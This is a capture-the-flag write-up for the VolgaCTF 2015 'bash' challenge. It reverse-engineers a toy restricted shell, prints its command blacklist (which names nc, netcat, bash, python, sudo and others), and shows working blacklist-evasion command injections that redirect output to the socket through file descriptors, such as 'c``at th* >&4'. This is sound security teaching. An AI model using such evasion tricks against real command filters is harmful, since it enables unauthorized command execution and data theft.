


# VolgaCTF Quals CTF 2015: bash

**Category:** PWN
**Points:** 125
**Solves:** 84
**Description:**

> just another super-puper secure shell
> 
> nc bash.2015.volgactf.ru 7777
> [tiny_bash](http://files.2015.volgactf.ru/bash/tiny_bash)

## Write-up

This writeup is based on following writeups:

* <http://www.rogdham.net/2015/05/03/volgactf-2015-quals-write-ups.en>
* <http://www.mrt-prodz.com/blog/view/2015/05/volgactf-2015-quals---bash-125pts-writeup>
* <https://www.whitehatters.academy/volgactf-2015-bash/>
* <http://ww9210.cn/2015/05/04/volgactf-writeupinterstellar-tiny_bash-mathproblem-database-pwnie/>

### Meta

Keywords:

* Bash Blacklist Evasion
* Command Injection `ci`
* File Descriptor Redirection

We are given a x86-64bit non-stripped ELF for Linux:

```bash
$ file tiny_bash 
tiny_bash: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=579021b3f75dc0c9734d4f1f408e5669b6a97d48, not stripped
```

Running it:

```bash
$ ./tiny_bash 
Usage: bash port
```

Let's give it a port:

```bash
$ ./tiny_bash 6666

```

Ok looks like it does something, maybe it listen on this port?

`nc` to it to find out:

```bash
$ nc localhost 6666
Welcome to our small secure shell.You are disallowed to execute several types ofcommands.Are you able to bypass these restrictions?
>> ls
This command is prohibited.
>> help
```

So we can input commands and some seems to be blacklisted.

Listing the functions using `radare2` yields several functions:

```bash
[0x00400ba0]> afl | sort -k1 | column -t
0x004009b8  26   3   sym._init
[...]
0x00400b90  16   2   sym.imp.socket
0x00400ba0  42   1   entry0
0x00400bd0  48   4   sym.deregister_tm_clones
0x00400c00  64   4   sym.register_tm_clones
0x00400c40  28   3   sym.__do_global_dtors_aux
0x00400c60  45   4   sym.frame_dummy
0x00400c8d  50   5   sym.reap_exited_processes
0x00400cbf  51   1   sym.sock_send
0x00400cf2  80   7   sym.check_command
0x00400d42  361  11  sym.process_connection
0x00400eab  798  19  sym.main
0x004011d0  101  4   sym.__libc_csu_init
[...]
```

Between `frame_dummy` and the first function beginning with `__` are the non-imported functions that have been defined for this challenge.

THe most interesting functions seem to be:

* `sym.main`
* `sym.check_command`
* `sym.process_connection`

Looking at the graph of `sym.check_command` (`VV @ sym.process_connection`), we see something interesting:



* Coming from `0x00400dd2`, the node containing `sym.check_command` passes the command, stored in buffer `rbp-local_8` to it.
* If the result is `t`rue, it seems that `system` is called, probably on our command

Let's have a look at `sym.check_command` (press `g`o to [`i`]) :



Looks like `strstr` is called, probably on our command and compared with the object `obj.commands`, which should contain all commands that are prohibited and thus blacklisted. However, it seems to be empty and filled during runtime.

Press `p` once to see the addresses and write down the address (`0x00400cfe`) that copies `obj.commands` to the buffer at `rbp-local_1`:

 

Let's run it with `gdb-peda` after setting a breakpoint at that address:

`server`:

```bash
$ gdb ./tiny_bash
Reading symbols from ./tiny_bash...(no debugging symbols found)...done.
gdb-peda$ b *0x00400cfe
Breakpoint 1 at 0x400cfe
gdb-peda$ r 6666
Starting program: /home/vbox/pwn/tasks/volgactf/bash/tiny_bash 6666
<...>
```

`client`:

```bash
$ nc localhost 6666
Welcome to our small secure shell.You are disallowed to execute several types ofcommands.Are you able to bypass these restrictions?
>> ls

```

Back to `server`:

```bash
Starting program: /home/vbox/pwn/tasks/volgactf/bash/tiny_bash 6666
Accepted connection from 127.0.0.1
[New process 2879]
User request: ls

[Switching to process 2879]
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffe2a0 --> 0xa736c ('ls\n')
RBX: 0x0 
RCX: 0x11 
RDX: 0x7ffff7dd59e0 --> 0x0 
RSI: 0x7fffffee 
RDI: 0x7fffffffe2a0 --> 0xa736c ('ls\n')
RBP: 0x7fffffffe270 --> 0x7fffffffe2e0 --> 0x7fffffffe400 --> 0x0 
RSP: 0x7fffffffe250 --> 0x4 
RIP: 0x400cfe (<check_command+12>:      mov    QWORD PTR [rbp-0x8],0x602140)
R8 : 0x0 
R9 : 0x0 
R10: 0x7ffff7dd26a0 --> 0x0 
R11: 0x246 
R12: 0x400ba0 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe4e0 --> 0x2 
R14: 0x0 
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400cf3 <check_command+1>:  mov    rbp,rsp
   0x400cf6 <check_command+4>:  sub    rsp,0x20
   0x400cfa <check_command+8>:  mov    QWORD PTR [rbp-0x18],rdi
=> 0x400cfe <check_command+12>: mov    QWORD PTR [rbp-0x8],0x602140
   0x400d06 <check_command+20>: jmp    0x400d2f <check_command+61>
   0x400d08 <check_command+22>: mov    rax,QWORD PTR [rbp-0x8]
   0x400d0c <check_command+26>: mov    rdx,QWORD PTR [rax]
   0x400d0f <check_command+29>: mov    rax,QWORD PTR [rbp-0x18]
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe250 --> 0x4 
0008| 0x7fffffffe258 --> 0x7fffffffe2a0 --> 0xa736c ('ls\n')
0016| 0x7fffffffe260 --> 0x0 
0024| 0x7fffffffe268 --> 0x7ffff7ffe1c8 --> 0x0 
0032| 0x7fffffffe270 --> 0x7fffffffe2e0 --> 0x7fffffffe400 --> 0x0 
0040| 0x7fffffffe278 --> 0x400e3f (<process_connection+253>:    test   eax,eax)
0048| 0x7fffffffe280 --> 0x0 
0056| 0x7fffffffe288 --> 0x4ffffe400 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000400cfe in check_command ()
gdb-peda$ x/20wx 0x602140
0x602140 <commands>:    0x0040131a      0x00000000      0x0040131e      0x00000000
0x602150 <commands+16>: 0x00401323      0x00000000      0x00401327      0x00000000
0x602160 <commands+32>: 0x0040132c      0x00000000      0x00401333      0x00000000
0x602170 <commands+48>: 0x00401336      0x00000000      0x00401339      0x00000000
0x602180 <commands+64>: 0x0040133c      0x00000000      0x00401343      0x00000000
gdb-peda$ x/s 0x0040131a
0x40131a:       "cat"
gdb-peda$ x/s 0x0040131e
0x40131e:       "flag"
gdb-peda$ x/69wx 0x602140
0x602140 <commands>:    0x0040131a      0x00000000      0x0040131e      0x00000000
0x602150 <commands+16>: 0x00401323      0x00000000      0x00401327      0x00000000
0x602160 <commands+32>: 0x0040132c      0x00000000      0x00401333      0x00000000
0x602170 <commands+48>: 0x00401336      0x00000000      0x00401339      0x00000000
0x602180 <commands+64>: 0x0040133c      0x00000000      0x00401343      0x00000000
0x602190 <commands+80>: 0x00401346      0x00000000      0x0040134b      0x00000000
0x6021a0 <commands+96>: 0x00401350      0x00000000      0x00401354      0x00000000
0x6021b0 <commands+112>:        0x00401358      0x00000000      0x0040135b      0x00000000
0x6021c0 <commands+128>:        0x00401360      0x00000000      0x00401363      0x00000000
0x6021d0 <commands+144>:        0x00401368      0x00000000      0x0040136d      0x00000000
0x6021e0 <commands+160>:        0x00401372      0x00000000      0x00401376      0x00000000
0x6021f0 <commands+176>:        0x00401379      0x00000000      0x0040137e      0x00000000
0x602200 <commands+192>:        0x00401385      0x00000000      0x0040136d      0x00000000
0x602210 <commands+208>:        0x0040138a      0x00000000      0x00401391      0x00000000
0x602220 <commands+224>:        0x00401396      0x00000000      0x0040139b      0x00000000
0x602230 <commands+240>:        0x004013a0      0x00000000      0x004013a5      0x00000000
0x602240 <commands+256>:        0x004013a9      0x00000000      0x00000000      0x00000000
0x602250 <stderr@@GLIBC_2.2.5>: 0xf7dd41c0
```

Looks like an array of commands starting at `0x40131a` and ending with `0x004013a9`, `32` strings in total.

Printing them all with `gdb`:

```bash
gdb-peda$ x/32s 0x0040131a
0x40131a:       "cat"
0x40131e:       "flag"
0x401323:       "txt"
0x401327:       "bash"
0x40132c:       "python"
0x401333:       "sh"
0x401336:       "ls"
0x401339:       "vi"
0x40133c:       "netcat"
0x401343:       "nc"
0x401346:       "perl"
0x40134b:       "args"
0x401350:       "awk"
0x401354:       "sed"
0x401358:       "wc"
0x40135b:       "pico"
0x401360:       "ed"
0x401363:       "echo"
0x401368:       "grep"
0x40136d:       "find"
0x401372:       "bin"
0x401376:       "su"
0x401379:       "sudo"
0x40137e:       "system"
0x401385:       "exec"
0x40138a:       "regexp"
0x401391:       "tail"
0x401396:       "head"
0x40139b:       "less"
0x4013a0:       "more"
0x4013a5:       "cut"
0x4013a9:       "pg"
```

We see a lot of blacklisted commands. However, `id` for example isn't one of them, so we should see the output if we try `id`:


```bash
$ nc localhost 6666
Welcome to our small secure shell.You are disallowed to execute several types ofcommands.Are you able to bypass these restrictions?
>> id
>>
```

Well, we see the output, but on the server side:

```
$ ./tiny_bash 6666
Accepted connection from 127.0.0.1
User request: id

uid=1000(vbox) gid=1000(vbox) groups=1000(vbox),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

So what do we do? Well if you know that after each time you open a socket, you open a file descriptor to be able to communicate between sockets.

There are three [file descriptors](https://en.wikipedia.org/wiki/File_descriptor) for each process by default opened:

* `0`: stdin
* `1`: stdout
* `2`: stderr

If we open a socket and the highest file descriptor number currently is `3`, the new file descriptor gets the number `4`.

You can redirect file descriptors to other file descriptors using `bash`'s [`I/O Redirection`](http://www.tldp.org/LDP/abs/html/io-redirection.html).

E.g. using `2>&4` you redirect `stderr` to our socket connection's file descriptor:

```bash
>> is 2>&4
sh: 1: is: not found
```

All that is left to do is redirect the output, `stdin` or `stderr`, of a non-blacklisted command to our socket.

There are several solutions:

* `du` - List all files:
```bash
>> du * 1>&4
4       this_file_contains_flag_cat_it.txt
16      tiny_bash
```
* `tac`:
```bash
>> tac * >&4
<garbage>{desire_is_the_key_to_motivation}<garbage>
```
* `rev`:
```bash
>> rev * 1>&4
}noitavitom_ot_yek_eht_si_erised{
```
* `xxd`:
```bash
>> xxd th* 1>&4
0000000: 7b64 6573 6972 655f 6973 5f74 6865 5f6b  {desire_is_the_k
0000010: 6579 5f74 6f5f 6d6f 7469 7661 7469 6f6e  ey_to_motivation
0000020: 7d0a                                     }.
```
* `ls` plus `cat` with some bash hacks:
```bash
>> l``s >&4
this_file_contains_flag_cat_it.txt
tiny_bash
>> c``at th* >&4
{desire_is_the_key_to_motivation}
```

There are several solutions to get the flag, `{desire_is_the_key_to_motivation}`.

## Other write-ups and resources

* <http://www.rogdham.net/2015/05/03/volgactf-2015-quals-write-ups.en>
* <http://www.mrt-prodz.com/blog/view/2015/05/volgactf-2015-quals---bash-125pts-writeup>
* <https://www.whitehatters.academy/volgactf-2015-bash/>
* <http://ww9210.cn/2015/05/04/volgactf-writeupinterstellar-tiny_bash-mathproblem-database-pwnie/>
* [Polish](http://forum.4programmers.net/Spolecznosc/251462-writeup_volgactf_2015)
